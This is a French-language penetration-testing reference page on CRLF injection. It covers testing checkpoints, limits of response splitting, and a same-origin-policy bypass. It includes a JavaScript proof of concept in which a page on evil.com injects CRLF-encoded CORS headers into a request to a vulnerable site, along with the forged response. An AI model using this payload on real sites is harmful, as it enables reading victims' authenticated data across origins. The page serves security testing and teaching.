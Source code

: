 ```yaml
---
title: CRLF Injection
permalink: /CRLF/
---
```


# CRLF Injection

## Points de contrôles

Les points suivants sont à vérifier:

- Valeurs réutilisées dans les headers (paramètre GET, POST, élément du Referer, etc.)
- Peut-on faire des retours à la ligne ? Essayer différents encodages.
- Peut-on ajouter un cookie arbitraire (Cookie: lang=$p avec $p = "xx; session=truc)

## Exploitation

### HTTP Response Splitting

Les attaques du type "HTTP Response Splitting" ne semblent pas marcher dans la vraie vie. Firefox & Chrome checkent les réponses et renvoie une erreur quand certains headers apparaissent en double (voir [Duplicate headers received from server](https://stackoverflow.com/questions/13578428/duplicate-headers-received-from-server) et [Firefox Advisory](https://www.mozilla.org/en-US/security/advisories/mfsa2011-39/)).

### Modification de la réponse

Il est possible de modifier la réponse en terminant le header et en injectant du code arbitraire à la suite.

### Same Origin Policy Bypass

On peut utiliser la vulnrébilité pour contourner la SOP grâce à [CORS](/CORS/). Le payload JS suivant peut servir de PoC (JS sur le domaine http://evil.com ciblant http://vulnerable.com)

``` javascript
<html>
    CORS Bypass
    <script>
        var xhr = new XMLHttpRequest();   // new HttpRequest instance 
        xhr.onreadystatechange = function() {
            if (xhr.readyState == XMLHttpRequest.DONE) {
                alert(xhr.responseText);
            }
        }
        xhr.withCredentials = true; 
        xhr.open("GET", 'http://vulnerable.com?NAME=test.html"%0D%0AAccess-Control-Allow-Origin:+http://evil.com%0D%0AAccess-Control-Allow-Credentials:+true%0D%0Atest:"')
        xhr.send();
    </script>
</html>
```
La réponse sera de la forme

``` text
HTTP/1.1 200 OK
Date: Mon, 08 Jan 2018 16:37:15 GMT
Content-Disposition: attachment;filename="test.html"
Access-Control-Allow-Origin: http://evil.com
Access-Control-Allow-Credentials: true
test:""
Content-Type: text/html;charset=UTF-8
Content-Length: 68
Connection: close

[CONTENU]
```

Ce qui permet de bypasse la SOP.

## Payloads

Voir [PayloadAllTheThings](https://github.com/ruuand/PayloadsAllTheThings/tree/master/CRLF%20injection)
